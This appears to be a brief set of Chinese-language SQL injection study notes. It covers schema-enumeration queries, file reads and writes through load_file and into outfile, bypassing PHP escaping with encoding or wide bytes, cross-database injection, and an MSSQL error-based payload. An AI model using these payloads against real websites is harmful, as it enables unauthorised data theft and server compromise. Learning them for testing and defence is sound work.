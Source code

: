 
`SELECT DISTINCT information_schema.TABLES.TABLE_SCHEMA FROM information_schema.`TABLES``获取目标数据库所有库名

`SELECT TABLE_NAME FROM information_schema.`TABLES` WHERE TABLE_SCHEMA = 'blog'`获取目标数据库目标库的所有表名

`SELECT COLUMN_NAME FROM information_schema.`COLUMNS` WHERE TABLE_SCHEMA = 'blog' AND TABLE_NAME = 'article'`获取目标数据库目标库目标表所有字段名

### 文件操作

`load_file('filepath');` 读取文件

`select '123' into outfile 'filepath'`将123写入目标文件

以上操作均需读写权限（大概就是root）

### 防注入

php：magic_quotes_gpc=true (魔术引号)、addslashes() (安全函数)     ：再一些特殊符号，如单引号等前添加反斜杠

绕过，采用编码或宽字节

### 高权限跨库注入

情形：网站A无注入点，网站B存在注入点，且AB数据库为统一MySQL服务器、网站B拥有数据库root权限

## 杂项

`and 1=(select * from eims_User FOR XML PATH('')) --`似乎很好用的亚子

网站目录爬行 根据网站中出现的连接构建出站点目录结构